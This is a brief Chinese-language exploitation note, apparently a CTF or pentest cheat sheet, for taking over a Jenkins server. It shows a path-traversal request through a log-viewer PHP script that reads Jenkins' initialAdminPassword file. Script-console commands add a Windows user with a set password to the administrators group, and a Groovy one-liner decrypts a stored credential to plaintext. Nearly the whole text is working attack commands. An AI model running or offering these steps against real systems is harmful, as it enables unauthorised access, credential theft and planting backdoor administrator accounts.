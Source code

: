 # 查找密码
Jenkins 用户名为 admin, 服务密码在
```bash
/tools/content-log.php?logfile=../../../../../../../../../ProgramData/Jenkins/.jenkins/secrets/initialAdminPassword
```
# 命令执行
Dashboard > Manage Jenkins > 脚本命令执行
```bash
println "net user dotast qwer1234! /add".execute().text  
println "net localgroup administrators dotast /add".execute().text  
```
# 查找凭据
Dashboard > Manage Jenkins > Credentials

gitlab 解明文
```bash
println(hudson.util.Secret.fromString("{AQAAABAAAAAg9+7GBocqYmo0y3H+uDK9iPsvst95F5i3QO3zafrm2TC5U24QCq0zm/GEobmrmLYh}").getPlainText())
```
